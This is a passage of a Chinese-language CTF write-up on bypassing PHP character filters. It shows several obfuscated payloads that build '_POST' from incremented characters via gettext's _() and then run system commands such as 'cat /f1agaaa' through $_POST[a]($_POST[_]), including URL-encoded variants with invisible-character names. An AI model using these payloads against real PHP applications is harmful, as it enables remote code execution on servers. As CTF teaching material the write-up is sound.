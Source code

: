 ```php
payload
x=$_=(_/_._)[0];++$_;$__=$_.$_++;++$_;++$_;++$_;$__.=$_++.$_;$_=_.$__;$$_[_]($$_[0]);&_=system&0=nl /f1agaaa
```

#### 限制字符3

`gettext`拓展`_()` ,相当于`gettext()`

```php
<?php

1
$a=_(a/a)[a];//相当于gettext(0/0)[0],得到N
$_=++$a;//O
$_=_.++$a.$_;//_PO
$a++;$a++;//R
$_.=++$a.++$a;//_POST
$$_[a]($$_[_]);//$_POST[a]($_POST[_])

2
<?php
$a=_(a/a)[a];//N
++$a;//O
$_=$a.$a++;//PO
$a++;$a++;//R
$_=_.$_.++$a.++$a;//_POST
$$_[a]($$_[_]);//$_POST[a]($_POST[_])

3
$_=_(a/a)[_];//N
$a=++$_;//O
$$a[$a=_.++$_.$a[$_++/$_++].++$_.++$_]($$a[_]);//巧妙的把两次$_++放在一起

```

```php
payload1
ctf_show=$%ff=_(%ff/%ff)[%ff];$_=%2b%2b$%ff;$_=_.%2b%2b$%ff.$_;$%ff%2b%2b;$%ff%2b%2b;$_.=%2b%2b$%ff.%2b%2b$%ff;$$_[_]($$_[%ff]);&_=system&%ff=cat /f1agaaa
#%ff是不可见字符

payload2
ctf_show=$%ff=_(%ff/%ff)[%ff];%2b%2b$%ff;$_=$%ff.$%ff%2b%2b;$%ff%2b%2b;$%ff%2b%2b;$_=_.$_.%2b%2b$%ff.%2b%2b$%ff;$$_[%ff]($$_[_]);&%ff=system&_=cat /f1agaaa

payload3
ctf_show=$_=_(%ff/%ff)[_];$%ff=%2b%2b$_;$$%ff[$%ff=_.%2b%2b$_.$%ff[$_%2b%2b/$_%2b%2b].%2b%2b$_.%2b%2b$_]($$%ff[_]);&_POST=system&_=cat /f1agaaa
```

#### challenge

